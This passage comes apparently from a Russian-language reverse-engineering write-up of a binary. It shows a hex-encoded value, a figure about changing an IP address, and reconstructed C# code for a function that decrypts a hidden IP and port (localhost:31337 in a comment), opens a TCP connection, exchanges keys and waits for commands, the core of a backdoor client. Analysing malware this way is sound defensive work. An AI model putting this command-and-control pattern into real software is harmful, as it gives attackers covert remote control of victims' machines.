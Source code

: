 ```
31003400330034003400340064003200630031003500320032006600390036003400640034006500610035003000340066003900360062003800630034003300650034006300350039003000350062
```

Смена адреса повлечёт за собой следующие изменения:
<figure style="text-align: center;">
	<img src="images/29.png" alt="alt-текст" style="width: auto; height: auto;">
	<figcaption>Различия после изменения IP-адреса</figcaption>
</figure>

Приведем восстановленный код функции **sub_140108AC0()**:
```cs
public static void Run()
{
    string strEncIPPort = "143444D2C1522F964D4EA504F96B8C43E4C5905B";
    // string strIPPort = "127.000.00.001;31337";
    string strIPPort = myEC.DecodeEncryptData(strEncIPPort);

    string strEncSeparation = "1E";
    string strSeparation = myEC.DecodeEncryptData(strEncSeparation);

    string[] substrings = strIPPort.Split(strSeparation);

    string strIP = substrings[0];
    string strPort = substrings[1];
    int intPort = int.Parse(strPort);

    myEC.tcpClient = new TcpClient(strIP, intPort);
    myEC.networkStream = myEC.tcpClient.GetStream();

    myEC.KeyExchange();
    myEC.GetCommand();
}
```
